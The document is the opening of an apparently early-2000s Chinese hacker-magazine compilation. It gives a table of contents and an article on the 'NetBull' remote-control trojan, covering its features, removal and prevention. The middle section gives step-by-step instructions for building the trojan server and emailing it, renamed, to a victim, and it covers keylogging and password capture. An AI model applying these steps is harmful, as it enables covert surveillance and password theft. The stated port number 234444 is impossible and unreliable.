# 黑器攻防精粹

## 黑客必读专辑

10分钟黑客 50套攻防秘籍助你成为安全专家

菜鸟进阶顶级教程

菜鸟入门傻瓜式手册

## 黑客防线专辑

## 黑客攻防精粹

黑客防线编辑部

本书由小蓉、qqqqlm、冰刀、佐罗-XP、午夜飞行、朱平、Chinaboy、bfctx、刺(aXis)、大海、安全天使·angel、劲风、mriss、喻凯、eastdark、大傅、阿楠、netff、ciel、霹雳、刘志勇、独行者、isno、HBU小组·小金、mopish boy、blue、雪儿心缘、文清、特种兵、kaka、木头、沧浪之水、小洁、玉玲珑、郑陆军、孤风扬、姚远、空悟、一水、t0ph0t等（排名不分先后）经验丰富的作者参与编写。

在此，我们衷心感谢他们，并祝他们事业、技术蒸蒸日上。

## 内容提要

《黑客防线》作为全国惟一的网络及计算机安全普及性刊物，长期以来因其专业、权威而备受读者欢迎，其每年度的精华本也是很多读者的首选读物。更有很多读者多次反映：《黑客防线》应该将其创刊以来的所有技术文章分类整理，做成针对性很强的专辑形式，便于爱好者收藏和查阅。所以，我们经过反复考虑，聚集《黑客防线》的精华文章，将其分为5个专辑出版，希望能够帮助大家。

《黑客攻防精粹》这本专辑收集了经常被用到的数十种常用黑客以及安全工具的应用，其中大量的工具是以入侵实例或者防护实例的题材呈现在读者眼前，对于读者来讲有非常大的参考价值。

40多名黑客的50多篇文章中涉及的各种黑客与安全工具研究的文章代码和用到的程序都收录在光盘内，请读者一定保存好光盘，以便阅读时候可以参照。

在此，我们衷心感谢他们，并祝他们事业、技术蒸蒸日上。

- 策划：《家庭电脑世界》编辑部
- 制作：《黑客防线》编辑部
- CN15-1192/TP
- 编辑：郭聪辉 徐生震 刘峰
- 技术支持电话：010-62141445-8030
- E-mail：hacker@hacker.com.cn
- 制作：王凤

- 地址：北京市中关村邮局008信箱《黑客防线》邮购部
- 邮编：100080
- 发行部电话：010-62141446
- 发行部传真：010-62141360
- E-mail：yougoubu@hacker.com.cn
- 网址：http://www.hacker.com.cn
- CD+书：19.8元

## 目录

## 第1章 走近远程控制工具

- 1.1 新款国产木马——网络公牛 …… 7
- 1.2 超级木马——蓝色火焰 …… 11
- 1.3 别具特色的国产木马网络神偷 …… 19
- 1.4 远程控制新秀——“灰鸽子”图文教程 …… 22
- 1.5 近墨者“黑” …… 25
- 1.6 你被跟踪了吗 …… 28
- 1.7 木马“广外女生”的使用和分析 …… 31
- 1.8 广外女生变男生——木马“广外男生”使用和分析 …… 38
- 1.9 木马全接触 …… 41
- 1.10 由浅入深木马植入方式的升级 …… 44
- 1.11 远程控制UNIX …… 48
- 1.12 怎样使用DameWareNTUtilities …… 52

## 第2章 形形色色的扫描器

- 2.1 抢鲜试用X-scan v2.0 …… 57
- 2.2 实战流光4.7 Sensor …… 59
- 2.3 Nmap 3.0正式版给我们带来了什么 …… 63
- 2.4 超级扫描工具SuperScan …… 64
- 2.5 黑客法宝SSS应用指南 …… 69
- 2.6 ScanLook使用详解 …… 71
- 2.7 倚天不出谁与争锋——NetXRay简介与应用 …… 74
- 2.8 Iris使用详解 …… 79

## 第3章 后门配置与隐藏

- 3.1 Windows 2000下改telnet做后门 …… 91
- 3.2 后门工具包——rootkit …… 92
- 3.3 详解端口进程关联工具 …… 99
- 3.4 后门程序的隐藏 …… 103

### 第4章 异类攻击工具

- 4.1 与别人的电脑共舞——飘叶网际隧道 …… 111
- 4.2 ETTERCAP——交换环境下的嗅探器 …… 113
- 4.3 使用CYGWIN打造你自己的Exploits …… 117
- 4.4 能绕过防火墙的利器——Hping …… 120
- 4.5 利用“FORM KILLER”破解网页表单密码 …… 126
- 4.6 超级网络解密之王Brutus …… 126
- 4.7 字典工具也疯狂 …… 133

## 第5章 防不胜防的攻击

- 5.1 DDoS攻击及其防范 …… 137
- 5.2 Sniffer原理及攻击实例 …… 143
- 5.3 浅析ICMP洪水攻击 …… 153

## 第6章 代理服务也疯狂

- 6.1 菜鸟也谈隐藏IP …… 160
- 6.2 IP代理自己找 …… 161
- 6.3 图解代理服务器软件——CCProxy …… 163
- 6.4 通向网络自由之路 …… 167
- 6.5 突破限制享受QQ …… 173
- 6.6 二次代理也疯狂 …… 175
- 6.7 打造免费加密的代理服务器 …… 180
- 6.8 用Ssso批量制作代理服务器 …… 182
- 6.9 Linux网络中代理突破利器——Prtunnel使用指南 …… 184

## 第7章 远离木马和后门

- 7.1 揭开Windows木马的神秘面纱 …… 187
- 7.2 在DOS下也可查杀木马 …… 204
- 7.3 三款广外木马的手工清除方法 …… 206
- 7.4 没有硝烟的战争——我是怎样抓到下木马者的 …… 207

## 第8章 把好自己的防线

- 8.1 构建一个基于SSL的安全Web网站 …… 210
- 8.2 Webmail攻防实战 …… 212
- 8.3 构建一台用于本地调试的多权服务器 …… 222

## 第9章 挡住黑客的利爪

- 9.1 网管攻防利器 …… 225
- 9.2 网络执法官——局域网实时管理工具 …… 229
- 9.3 系统驱动备份轻松上手——驱动精灵使用指南 …… 231
- 9.4 Microsoft Baseline Security Analyzer试用手记 …… 233
- 9.5 网络安全的双重保护 …… 234

## 第1章 走近远程控制工具

### 1.1 新款国产木马——网络公牛

近日在网上闲转时，发现了一个4月刚刚升级的国产木马：网络公牛。经过一段时间试用，发现它的功能还是蛮强的，有可能对大家造成一定的危害，因此将它“揪”出来，使大家对它有所防范。

#### 一、网络公牛文件组成

下载后得到netbull_mumall.zip（木马版）这个压缩文件（该软件收录在黑客防线杂志光盘\相关\netbull_mumall.zip），解压后会产生以下几个文件：

- buildserver.exe（用于把autobind.dat、peepshell.dll、peepserver.exe、keycap.dll捆绑成一个单独的可执行文件newserver.exe）
- peepshell.dll（自动运行二个可执行文件的外壳）
- autobind.dat（用于在服务器端自动执行一系列动作的外壳）
- keycap.dll（按键捕捉DLL）
- peepserver.exe（在服务器端真正执行的EXE文件）
- peep.exe（客户端EXE文件）
- netbull.txt（该软件的说明文件）

#### 二、菜单与功能简介

在主界面中有4个菜单。主要功能都在“命令选项”里，具体来看（图1-1）：



图1-1

#### 1. 控制台：

1) 系统信息：有系统信息、获取密码、关闭计算机、重启计算机、闭锁计算机等功能，点击按钮会执行相应的功能（图1-2）。NT/2000下获取密码时，出现“对方操作系统为NT/2000，获取密码要求被拒绝”的信息。

2) 消息：可以给对方发短信息，根据你的设置，可以在服务端弹出窗口（图1-3），和“冰河”的“冰河信使”很相像。





图1-2

图1-3

3) 进程管理：有列举进程、删除进程和创建进程三项，很方便对服务端进程的控制（图1-4）。

4) 查找：查找受控电脑中的文件，可以使用通配符。

5) 服务器在线修改：可以在线改变用来接收服务端IP地址的邮箱设置，包括重新配置SMTP服务器、所用端口、目的信箱地址这三项。

#### 2. 浏览器：

点击后弹出文件管理器窗口（图1-5），可以打开对方电脑里所有的文件、文件夹，还可以上传、下载、删除、重命名、远方执行等功能。其中远方执行功能可以远程执行对方电脑中的可执行文件或上传过去的软件。还好，它没有隐藏打开方式，因此危害小了些。





图1-4

图1-5

#### 3. 捕获屏幕：

显现服务端电脑正在运行的屏幕，通过它，可以看服务端电脑正在运行什么软件。如果选中“命令选项”中的“屏幕捕获”菜单，再点击其中的“选项”->“本地鼠标、键盘有效”，就可控制受控方的鼠标和键盘。那时，被控者可真是欲哭无泪了。

#### 三、透视它的运行方法

1. 首先要进行一番配置。运行客户端peep.exe，会出现一个界面（图1-6），打开菜单中的“配置服务器”->“配置”，则打开了一个对话框，在对话框的文件名栏中选择peepserver.exe，会打开“服务器参数配置”对话框（图1-7），里面有3项。一个是“SMTP服务器”设置项，如果你用的是163.net信箱，那么这一栏你就要填：smtp.163.net；另一个是“端口”设置项，用25（即默认）即可；最后一个是“目标信箱”设置项，当然是填入控制者的信箱啦。设置好了后，在“捆绑运行”单选框里打个勾。这样设置后，当运行了服务端的受害者上网后，他（她）的动态IP地址就通过邮件发到控制者的信箱。这一步也可在与服务端连接后动态设置。





图1-6    图1-7

2. 生成服务端。运行buildserver.exe，会在运行目录下自动产生一个newserver.exe文件（大约213K），这个新产生的文件其实就是合成了autobind.dat、peepshell.dll、peepserver.exe、keycap.dll这4个文件形成的新文件，它就是木马的服务端了，所以千万不要随便在你的机子上运行它，很危险啊！

3. 进入对方主机。将newserver.exe改名后用E-mail寄出，如果有人运行了这个程序，服务端就成功地进入了对方的电脑。

4. 控制对方主机。运行客户端文件peep.exe，点击“文件”菜单，选择“增加主机”。这时会出现一个对话框（图1-8），在“主机名”中可随便填；在“主机地址”栏中要填上收到的IP地址；连接方式默认为network。点击“OK”按钮，此时主机名和主机IP就会加入工作区中了。接着打开“命令选项”菜单点击“连接”，如果此时那个可怜的人还在线的话，主界面就会显示（图1-9）：2001/7/26 14:30:46 与 wzh：192.168.0.222 连接成功（192.168.0.222为服务端所在IP地址）！

#### 四、一些情况说明

1. 服务端文件newserver.exe改名发到对方电脑运行后，会自动脱壳成checkdll.exe（就是peepserver.exe），它位于C:\WINDOWS\SYSTEM下，下次开机checkdll.exe将自动运行，因此很隐藏、危害很大。

2. 服务端运行后，会自动按客户端的IP邮箱设置给其信箱发一封信，告知开始运行的时间和服务端的IP地址，并每10分钟查询一次IP地址，在IP地址发生改变时也能通知客户端。看看，这就是被“套牢”的原因。所以一定不能运行来历不明的软件，否则……





图1-8

图1-9

3. 服务端运行后会自动捕捉按键消息，并将内容写入服务端的系统目录下的alluser.dat文件中；在受控方运行IE和有密码输入窗口出现时的按键都写入另一个专用文件ieuser.dat中。在这两个文件中如出现@符号则表示其后为拨号上网的密码，*号后为一般的密码。客户端在与服务端连接后，可用客户端文件peep.exe中的文件浏览器功能打开这两个文件。

4. 服务端运行后会自动捆绑以下文件：

- win9x下：notepad.exe；write.exe；regedit.exe；winmine.exe；winhelp.exe
- winnt/2000下：（在2000下会出现文件改动报警，但也不能阻止以下文件的捆绑）notepad.exe；regedit.exe；reged32.exe；drwtsn32.exe；winmine.exe

服务端运行后还会捆绑在开机时自动运行的第三方软件（如：realplay.exe等）上。

5. 该木马会占用234444端口，因此如果发现234444端口被占用就要注意了。

#### 五、清除方法

被网络公牛感染了，要清除干净非常麻烦。你可以这样做：删除网络公牛的自启动程序C:\WINDOWS\SYSTEM\CheckDll.exe，检查上面列出的文件可能被捆绑的软件，如果发现文件长度发生变化，就删除它们！然后点击“开始→附件→系统工具→系统信息→工具→系统文件检查器”，在弹出的对话框中选中“从安装软盘提取一个文件(E)”，在框中填入要提取的文件（前面你删除的文件），点“确定”按钮，然后按屏幕提示将这些文件恢复即可。如果是开机时自动运行的第三方软件如：realplay.exe、QQ、ICQ等被捆绑上了，那就得把这些文件删除，再重新安装。

### 六、网络公牛及其它木马软件的防范

由于木马都是要我们先安装Server端（服务端），然后再启动Client端（客户端）进行控制。因此只要我们保持警惕，不让Server端有机会进入我们的电脑，也就不会被控制了，以下是几点建议：

1. 不要运行来历不明的软件，即使通过了一般反病毒软件的检查也不要轻易运行。对于此类软件，要用如Cleaner、LockDown、木马克星等专门的黑客程序清除软件检查。

2. 不要轻易相信别人。有些别有用心的人，经常装作“大虾”，善意地帮助人，给您发各种软件或图片，在您运行了这些软件后就会后悔莫及了。还有一些人经常冒充MM或GG，给您发来一些软件或图片，不用说又利用了您的善良，又上当了……

3. 下载软件到有名的大站点，不要去那些小站点。

4. 保持警惕性，对不熟悉的人发来的E-mail不要轻易打开，带有附件就更要小心了。另外就算是熟人发来的E-mail，对其中的附件也要小心，如Happy99就会自动加在E-mail附件当中，您的朋友也许会无意中害了您。

5. 及时为系统安装补丁和疫苗。这一点没什么好说的，这样会安全一些。

6. 最好通过代理服务器上网，只有这样才能真正隐藏自己的IP，相应地就会减少危险。

7. 一定要给自己找个好一点的实时监控反病毒软件，同时还要准备如Cleaner、LockDown、木马克星等专门的黑客程序清除软件，对下载的软件在运行前用它们进行检查。

8. 注意检查系统，发现有异常情况时（如突然出现蓝屏然后死机；CD-ROM莫名其妙地自己弹出；鼠标左右键功能颠倒或者失灵；文件被莫名其妙地删除……），请检查注册表，看HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion和HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion下，所有以“Run”开头的键值名，其下有没有可疑的文件名。如果有，就需要删除相应的键值，再删除相应的应用程序。

